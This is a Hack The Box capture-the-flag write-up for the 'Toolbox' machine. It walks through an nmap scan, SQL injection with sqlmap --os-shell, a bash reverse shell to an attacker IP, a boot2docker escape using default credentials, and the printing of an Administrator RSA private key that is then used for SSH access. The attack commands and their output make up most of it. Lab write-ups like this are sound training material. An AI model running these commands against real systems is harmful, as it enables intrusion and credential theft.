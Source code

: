 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Toolbox](https://app.hackthebox.com/machines/Toolbox) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Windows                                                |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | Postgres, SQLi, sqlmap --os-shell, docker, boot2docker |

# Scan
```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.60 beta
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  tcpwrapped
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.38 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-18T09:34:07
|_  start_date: N/A
```

# Attack path
1. [Gain initial foothold by exploiting SQLi in web application](#gain-initial-foothold-by-exploiting-sqli-in-web-application)
2. [Escalate to `Administrator` using SSH private exfiltrated from directory mounted on Docker host](#escalate-to-administrator-using-ssh-private-exfiltrated-from-directory-mounted-on-docker-host)

### Gain initial foothold by exploiting SQLi in web application

#### Add `megalogistic.com` and `admin.megalogistic.com` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Toolbox]
└─$ echo "$TARGET megalogistic.com admin.megalogistic.com" | sudo tee -a /etc/hosts
10.129.41.203 megalogistic.com admin.megalogistic.com
```

#### Store raw HTTP request for admin panel login
Payload has been obtained with Burp.
```
┌──(magicrc㉿perun)-[~/attack/HTB Toolbox]
└─$ cat <<'EOF'> login.http
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=64cf5fb20a3c65d94f80518019c4dac1
Content-Length: 28
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://admin.megalogistic.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin.megalogistic.com/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

username=admin&password=pass
EOF
```

#### Start `netcat` to listen on reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Toolbox]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
```

#### Use `login.http` to exploit SQLi and spawn reverse shell using `sqlmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Toolbox]
└─$ sqlmap -r login.http --batch --level 3 --force-ssl --os-shell                                                           
<SNIP>
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.23/4444 0>&1'
```

#### Confirm foothold gained
```
connect to [10.10.16.23] from (UNKNOWN) [10.129.41.203] 49798
bash: cannot set terminal process group (236): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ id
id
uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)
```

### Escalate to `Administrator` using SSH private exfiltrated from directory mounted on Docker host

#### Confirm foothold made into `boot2docker` based machine
As we know that target is running on Windows, and we made foothold into Linux system, thus it must be running on virtual machine. Which could be confirmed with:
```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -a
uname -a
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

#### Stabilise reverse shell
```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ /usr/bin/script -qc /bin/bash /dev/null
```

#### Obtain IP address of gateway which will be address of a Docker host
```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ netstat -rn
netstat -rn
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG        0 0          0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U         0 0          0 eth0
```

#### Use default `docker:tcuser` credentials for `boot2docker` to escape to the host
```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
docker@172.17.0.1's password: tcuser

   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ id
id
uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)
```

#### Discover Windows host `C:\Users` directory mount
```
docker@box:~$ mount                                                            
<SNIP>
/c/Users on /c/Users type vboxsf (rw,nodev,relatime)
<SNIP>
```

#### Discover `Administrator` SSH private key in mounted directory
```
docker@box:~$ cat /c/Users/Administrator/.ssh/id_rsa                           
cat /c/Users/Administrator/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
4ocjUwG9XcU0iI4pcHT3nXPKmGjoPyiPzpa5WdiJ8QpME398Nne4mnxOboWTp3jG
aJ1GunZCyic0iSwemcBJiNyfZChTipWmBMK88wIDAQABAoIBAH7PEuBOj+UHrM+G
Stxb24LYrUa9nBPnaDvJD4LBishLzelhGNspLFP2EjTJiXTu5b/1E82qK8IPhVlC
JApdhvDsktA9eWdp2NnFXHbiCg0IFWb/MFdJd/ccd/9Qqq4aos+pWH+BSFcOvUlD
vg+BmH7RK7V1NVFk2eyCuS4YajTW+VEwD3uBAl5ErXuKa2VP6HMKPDLPvOGgBf9c
l0l2v75cGjiK02xVu3aFyKf3d7t/GJBgu4zekPKVsiuSA+22ZVcTi653Tum1WUqG
MjuYDIaKmIt9QTn81H5jAQG6CMLlB1LZGoOJuuLhtZ4qW9fU36HpuAzUbG0E/Fq9
jLgX0aECgYEA4if4borc0Y6xFJxuPbwGZeovUExwYzlDvNDF4/Vbqnb/Zm7rTW/m
YPYgEx/p15rBh0pmxkUUybyVjkqHQFKRgu5FSb9IVGKtzNCtfyxDgsOm8DBUvFvo
qgieIC1S7sj78CYw1stPNWS9lclTbbMyqQVjLUvOAULm03ew3KtkURECgYEA17Nr
Ejcb6JWBnoGyL/yEG44h3fHAUOHpVjEeNkXiBIdQEKcroW9WZY9YlKVU/pIPhJ+S
7s++kIu014H+E2SV3qgHknqwNIzTWXbmqnclI/DSqWs19BJlD0/YUcFnpkFG08Xu
iWNSUKGb0R7zhUTZ136+Pn9TEGUXQMmBCEOJLcMCgYBj9bTJ71iwyzgb2xSi9sOB
MmRdQpv+T2ZQQ5rkKiOtEdHLTcV1Qbt7Ke59ZYKvSHi3urv4cLpCfLdB4FEtrhEg
5P39Ha3zlnYpbCbzafYhCydzTHl3k8wfs5VotX/NiUpKGCdIGS7Wc8OUPBtDBoyi
xn3SnIneZtqtp16l+p9pcQKBgAg1Xbe9vSQmvF4J1XwaAfUCfatyjb0GO9j52Yp7
MlS1yYg4tGJaWFFZGSfe+tMNP+XuJKtN4JSjnGgvHDoks8dbYZ5jaN03Frvq2HBY
RGOPwJSN7emx4YKpqTPDRmx/Q3C/sYos628CF2nn4aCKtDeNLTQ3qDORhUcD5BMq
bsf9AoGBAIWYKT0wMlOWForD39SEN3hqP3hkGeAmbIdZXFnUzRioKb4KZ42sVy5B
q3CKhoCDk8N+97jYJhPXdIWqtJPoOfPj6BtjxQEBoacW923tOblPeYkI9biVUyIp
BYxKDs3rNUsW1UUHAvBh0OYs+v/X+Z/2KVLLeClznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----
```

#### Exfiltrate key and use to access target over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Toolbox]
└─$ ssh Administrator@$TARGET -i id_rsa
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@TOOLBOX C:\Users\Administrator>whoami
toolbox\administrator
```
